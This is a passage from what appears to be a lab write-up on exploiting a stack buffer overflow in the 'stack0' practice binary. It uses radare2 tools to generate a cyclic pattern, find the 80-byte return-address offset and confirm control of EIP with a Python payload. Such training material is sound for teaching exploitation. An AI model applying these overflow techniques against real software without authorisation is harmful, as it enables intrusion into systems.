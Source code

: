 {% highlight shell-session %}
$ ragg2 -P 500 -r > payload.txt
$ cat payload.txt
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATA...nACoACpACqACrACsA
{% endhighlight %}

Now we will create rarun2 profile

{% highlight shell-session %}
$ vim r2profile.rr2
$ cat r2profile.rr2
#!/usr/bin/rarun2
stdin=./payload.txt
{% endhighlight %}

Now let's debug the app using this profile

{% highlight shell-session %}
$ r2 -d stack0 -e dbg.profile=r2profile.rr2
Process with PID 30649 started...
= attach 30649 30649
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> dc
you have changed the 'modified' variable
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41416241 code=1 ret=0
[0x41416241]>
{% endhighlight %}

We executed our binary and passed the content of pattern.txt to stdin with rarun2 and received SIGNAL 11.

> A signal is an asynchronous notification sent to a process or to a specific thread within the same process in order to notify it of an event that occurred.

> The SIGSEGV (11) signal is sent to a process when it makes an invalid virtual memory reference, or segmentation fault, i.e. when it performs a segmentation violation.

Did you notice that now our prompt points to 0x41416241? This is an invalid address which represents 'AAbA' (ascii), a fragment from our pattern. radare allows us to find the offset of a given value in De Bruijn pattern.

{% highlight shell-session %}
[0x41416241]> wopO eip
80
{% endhighlight %}

Now that we know that the override of the return address occurs after 80 bytes, we can begin crafting our payload.

Now let's double check that we control the `$eip`

{% highlight shell-session %}
$ python -c 'print "A" * 80 + "B" * 4 + "C" * (500 - 4 - 80)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCC....CCCCCCC
$ python -c 'print "A" * 80 + "B" * 4 + "C" * (500 - 4 - 80)' > payload.txt
$ r2 -d stack0 -e dbg.profile=r2profile.rr2
Process with PID 9674 started...
= attach 9674 9674
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> dc
you have changed the 'modified' variable
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x42424242 code=1 ret=0